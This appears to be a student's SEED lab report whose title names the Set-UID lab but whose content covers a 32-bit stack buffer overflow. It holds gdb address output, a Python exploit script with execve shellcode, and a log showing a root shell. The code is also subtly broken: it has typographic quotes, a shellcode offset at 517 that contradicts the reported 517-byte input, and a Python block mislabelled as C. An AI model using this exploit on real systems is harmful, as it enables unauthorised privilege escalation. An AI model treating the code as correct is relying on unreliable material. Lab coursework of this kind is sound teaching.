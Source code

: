 # SEEDlabs: Environment Variable and Set-UID Program Lab

#### Ozgur Ural
#### Student ID: 2564455


## Launching Attack on 32-bit Program (Level 1)

1. gdb stack-L1-dbg - Get the address of the bof function and the address of the buffer.

```sh
gdb-peda$ print $ebp
$1 = (void *) 0xffffcb08
gdb-peda$ print $buffer
$2 = (char (*)[100]) 0xffffca9c
```

2. Created badfile file. 
3. Modified the exploit.py file:

```c
#!/usr/bin/python3
import sys
shellcode= (
                   "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 517 
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffca9c+start # ✩ Need to change ✩
offset = 0xffffcb08-0xffffca9c+4 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
```

4. Generate the payload and then attack.

```sh
[10/06/22]seed@VM:~/code$ ./exploit.py
[10/06/22]seed@VM:~/code$ ./stack-L1
Input size: 517
#id
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm)
```
Got root privileges.

Additional explanations about the exploit.py modifications.
- The shellcode is copied, which is 32bit assembly version of the shellcode.
- ret is the return adress, returning the first instruction of the shellcode
- offset is the interval between ebp and buffer addresses
- L equal to 4 is a 32 bit program.
